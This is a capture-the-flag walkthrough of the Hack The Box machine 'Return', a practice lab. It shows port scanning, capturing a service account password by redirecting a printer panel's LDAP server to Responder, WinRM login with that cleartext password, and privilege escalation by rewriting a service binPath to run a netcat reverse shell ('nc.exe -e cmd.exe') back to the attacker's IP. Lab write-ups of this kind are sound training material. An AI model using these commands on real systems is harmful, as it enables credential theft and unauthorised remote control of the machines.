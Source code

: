 # HTB - Return

#### Ip: 10.10.11.108
#### Name: Return
#### Rating: Easy

----------------------------------------------------------------------

Return.png

### Enumeration

Lets kick things off by using Nmap to scan all TCP ports to see what's open on this box. I'll also use the `--min-rate 10000` flag to speed things along:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.108 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 14:01 CDT
Nmap scan report for 10.10.11.108
Host is up (0.082s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49679/tcp open  unknown
49682/tcp open  unknown
49694/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 9.19 seconds
```

Lets dive deeper by also using the `-sV` and `-sC` flags to enumerate versions and use default scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ sudo nmap -sC -sV -T4 10.10.11.108 -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49694
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 14:04 CDT
Nmap scan report for 10.10.11.108
Host is up (0.071s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-05 19:22:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-05T19:23:51
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: 18m33s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.95 seconds
```

Ok cool, looks like we are dealing with an Active Directory box here. 

I always like to start off my enumeration by looking at LDAP:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ nmap -n -sV --script "ldap* and not brute" 10.10.11.108
```

This didn't return much of use for us, but did drop a DNS Hostname:

ldap.png

Lets go ahead and add return.local and printer.return.local to `/etc/hosts`

Checking out return.local, we find a Printer Admin Panel. Poking around a bit more we see an interesting Settings page:

settings_page.png

Going off a hunch I start a Responder listener on my tun0 interface using:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ sudo responder -I tun0 -wv
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0
```

And change the 'Server Address' field to my tun0 IP address and click update.

Nice looks like we were able to capture the passsword for svc-printer!

svc-printer_pw.png

Awesome! We can use these creds to directly logon to the box:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ evil-winrm -u svc-printer -p 1edFg43012sudo responder -I tun0 -wv -i 10.10.11.108

                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ evil-winrm -u svc-printer -p '1edFg43012!!' -i 10.10.11.108

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
*Evil-WinRM* PS C:\Users\svc-printer\Documents> hostname
printer
```
Lets grab the user.txt flag:

user_flag.png

### Privilege Escalation

Running `whomai /all` show we are are in a high manadatory label shell, but more importantly, it looks like we are also in the Server Operators Group

server_operators.png

Because svc-printer is in the server operators group, that means we can start and stop services on the machine.

Lets see what services are running here:

services.png

Cool, lots to choose from! Lets kick this off by uploading nc.exe to the target. Once nc.exe is on the target our goal will be to modify the path for one of the services, stop the service, set up a netcat listener, and finally restart the service, which should give us back a reverse shell with elevated permissions.

Lets try the VMTools service first:

```text
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.7 8888"
```

Then we need to set up a listener and simply stop and start the service:

```text
sc.exe stop VMTools
sc.exe start VMTools
```

And sure enough we catch a shell back!

shell.png

All that's left to do now is grab the root.txt flag:

root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------------------------------------